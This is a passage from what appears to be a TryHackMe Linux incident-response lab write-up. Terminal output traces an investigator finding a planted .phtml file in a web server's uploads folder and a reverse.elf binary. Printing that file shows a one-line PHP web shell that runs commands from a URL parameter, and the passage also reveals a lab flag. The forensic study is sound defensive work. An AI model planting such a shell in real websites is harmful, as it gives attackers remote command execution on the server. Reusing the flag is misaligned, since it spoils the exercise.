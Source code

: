<pre><code>$ investigator@ip-[Target_IP]:~$ export PATH=/mnt/usb/bin:/mnt/usb/sbin
investigator@ip-[Target_IP]:~$ export LD_LIBRARY_PATH=/mnt/usb/lib:/mnt/usb/lib64
investigator@ip-[Target_IP]:~$ check-env
THM{5514ec4f1ce82f63867806d3cd95dbd8}
</code></pre>

<br>

<h2>Task 3. Files, Permissions, and Timestamps<a id='3'></a></h2>

<br>

<pre><code>$  ls -al /var/www/html/
total 32
drwxr-xr-x 4 root     root      4096 Feb 12  2024 .
drwxr-xr-x 3 root     root      4096 Feb 12  2024 ..
drwxr-xr-x 2 www-data www-data  4096 Feb 13  2024 assets
-rw-r--r-- 1 root     root     10918 Feb 12  2024 index.html
-rwxr-xr-x 1 www-data www-data   905 Feb 12  2024 upload.php
drwxr-xr-x 2 www-data www-data  4096 Feb 13  2024 uploads
investigator@ip-10-10-229-35:~$ ls -al var/www/html/uploads
ls: cannot access 'var/www/html/uploads': No such file or directory
investigator@ip-10-10-229-35:~$ ls -al /var/www/html/uploads
total 224
drwxr-xr-x 2 www-data www-data 4096 Feb 13  2024 .
drwxr-xr-x 4 root     root     4096 Feb 12  2024 ..
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 ABHz3aj.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 AhVpDoS.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 AqLnBvC.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 AsDfGhJ.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 AzSxWqE.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 BcFvGtR.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 BcNmLoP.jpeg
...
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 YmLnXhP.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 YtGfHjK.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 ZtXcVbN.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 ZxVbNmQ.jpeg
-rw-r--r-- 1 www-data www-data 1908 Feb 12  2024 ZxXcVuY.jpeg
-rw-r--r-- 1 www-data www-data   30 Feb 13  2024 b2c8e1f5.phtml
</code></pre>


<pre><code>investigator@ip-10-10-229-35:~$ ls -al /var/www/html/uploads | grep -v ".jpeg"
total 224
drwxr-xr-x 2 www-data www-data 4096 Feb 13  2024 .
drwxr-xr-x 4 root     root     4096 Feb 12  2024 ..
-rw-r--r-- 1 www-data www-data   30 Feb 13  2024 b2c8e1f5.phtml
</code></pre>

<pre><code>investigator@ip-10-10-229-35:~$ cat /var/www/html/uploads/b2c8e1f5.phtml 
<?php system($_GET['cmd']);?>
</code></pre>

<pre><code>investigator@ip-10-10-229-35:~$ investigator@ip-10-10-229-35:~$ find / -user www-data -type f 2>/dev/null | less
/var/www/html/assets/reverse.elf
/var/www/html/uploads/MzCxVeR.jpeg
/var/www/html/uploads/AzSxWqE.jpeg
/var/www/html/uploads/QaWsEdR.jpeg
/var/www/html/uploads/TyHjKlM.jpeg
/var/www/html/uploads/PrTgHfD.jpeg
/var/www/html/uploads/YmLnXhP.jpeg
/var/www/html/uploads/LuDjYnW.jpeg
/var/www/html/uploads/LvXcBvN.jpeg
/var/www/html/uploads/AsDfGhJ.jpeg
/var/www/html/uploads/CoSaBmQ.jpeg